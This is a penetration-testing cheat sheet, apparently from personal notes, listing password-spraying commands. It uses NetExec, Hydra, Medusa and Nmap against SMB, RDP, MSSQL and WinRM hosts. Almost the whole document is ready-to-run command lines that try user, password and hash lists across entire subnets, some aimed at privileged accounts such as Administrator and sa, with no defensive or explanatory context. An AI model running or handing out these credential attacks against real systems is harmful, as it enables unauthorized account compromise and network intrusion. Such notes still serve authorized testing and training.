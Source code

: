 # Unix Shell

Search Tags: #password-spraying

TODO: Add more knowledge to Linux for password reuse

## 01 - SMB

### 1.1 - NetExec

- Password spraying

`$ netexec smb <IP>/<CIDR> -u users.lst -p "<password>" [--continue-on-success]`

- Password spraying without bruteforce

```
$ netexec smb <IP>/<CIDR> -u users.lst -p passwords.lst --no-bruteforce [--continue-on-success]

$ netexec smb <IP>/<CIDR> -u users.lst -H hashes.lst --no-bruteforce [--continue-on-success]
```

### 1.2 - Hydra

`$ hydra -L users.lst -p "<password>" -M ip_targets.txt smb`

### 1.3 - Medusa

```
$ medusa -H ip_targets.txt -U users.lst -p "<password>" -M smb

$ medusa -H ip_targets.txt -U users.lst -p "<password>" -M smbnt
```

### 1.4 - Nmap

```
$ nmap -p 445 -Pn -n --script smb-brute --script-args "userdb=users.lst,passdb=passwords.lst" [--script-args smbtype=<version>] <IP>/<CIDR>

$ nmap -p 445 -Pn -n --script smb-brute --script-args "smbusername='Administrator',passdb=passwords.lst" [--script-args smbtype=<version>] <IP>/<CIDR>
```

## 02 - RDP

### 2.1 - NetExec

- Password spraying

`$ netexec rdp <IP>/<CIDR> -u users.lst -p "<password>" [--continue-on-success]`

- Password spraying without bruteforce

```
$ netexec rdp <IP>/<CIDR> -u users.lst -p passwords.lst --no-bruteforce [--continue-on-success]

$ netexec rdp <IP>/<CIDR> -u users.lst -H hashes.lst --no-bruteforce [--continue-on-success]
```

### 2.2 - Hydra

```
$ hydra -l Administrator -p "<password>" -M ip_targets.txt rdp

$ hydra -L users.lst -p "<password>" -M ip_targets.txt rdp
```

### 2.3 - Medusa

```
$ medusa -H ip_targets.txt -u Administrator -p "<password>" -M rdp

$ medusa -H ip_targets.txt -U users.lst -p "<password>" -M rdp
```

## 03 - MSSQL

### 3.1 - NetExec

```
$ netexec mssql <IP>/<CIDR> -u sa -p "<password>" [--continue-on-success]

$ netexec mssql <IP>/<CIDR> -u users.lst -p "<password>" [--continue-on-success]
```

### 3.2 - Hydra

```
$ hydra -l sa -p "<password>" -M ip_targets.lst mssql

$ hydra -L users.lst -p "<password>" -M ip_targets.lst mssql
```

### 3.3 - Medusa

```
$ medusa -H ip_targets.txt -u sa -p "<password>" -M mssql

$ medusa -H ip_targets.txt -U users.lst -p "<password>" -M mssql
```

## 04 - WinRM

### 4.1 - NetExec

```
$ netexec winrm <IP>/<CIDR> -u Administrator -p "<password>" [--continue-on-success]

$ netexec winrm <IP>/<CIDR> -u users.lst -p "<password>" [--continue-on-success]
```

---
## References

- [Hacking Articles: Comprehensive Guide on Password Spraying Attack](https://www.hackingarticles.in/comprehensive-guide-on-password-spraying-attack/)